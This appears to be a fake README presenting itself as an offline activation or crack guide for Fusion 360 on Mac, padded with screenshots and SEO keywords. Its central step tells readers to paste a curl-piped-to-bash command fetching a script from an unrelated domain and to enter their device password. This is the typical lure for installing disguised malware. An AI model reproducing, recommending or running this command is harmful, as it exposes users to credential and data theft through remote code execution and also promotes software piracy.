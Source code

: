 # Fusion 360 — Offline Activation Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](#)

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```
---

## 🎯 What You Unlock

🛠 Full 3D modeling and design environment  
⚙️ Integrated CAM tools for manufacturing  
📐 Parametric and freeform modeling capabilities  
📊 Simulation and generative design modules  
🔒 No login or online validation required

---

## 🖼 Preview

![Fusion 360 Interface](https://i.ytimg.com/vi/7uEsArC8kIk/maxresdefault.jpg)  
*Modern Fusion 360 user interface for CAD design*

![Fusion 360 Tombsotone Project](https://adsknews.autodesk.com/app/uploads/2020/11/Tombsotone-Hero-Image.png)  
*Advanced modeling example: Tombsotone project*

![Fusion 360 Workspace and Tools](https://www.3dnatives.com/en/wp-content/uploads/sites/2/Fusion360_1.jpg)  
*Comprehensive CAD/CAM workspace in Fusion 360*


---

### 🔎 SEO Keywords

`fusion 360 mac`, `fusion 360 mac download`, `fusion 360 download for mac`, `download fusion 360 for mac`, `autodesk fusion 360 mac`,  
`fusion 360 macos`, `fusion 360 mac m1`, `mac fusion 360`, `autodesk fusion mac`, `fusion 360 macbook`,  
`fusion 360 macbook pro`, `fusion 360 mac install`, `fusion 360 mac app`, `fusion 360 mac version`, `fusion 360 mac setup`,  
`fusion 360 mac tutorial`, `fusion 360 mac free trial`, `fusion 360 mac system requirements`, `fusion 360 mac update`, 
`fusion 360 mac native`, `fusion 360 mac optimized`, `fusion 360 mac download latest`, `fusion 360 mac support`, `fusion 360 mac performance`, `fusion 360 mac compatibility`
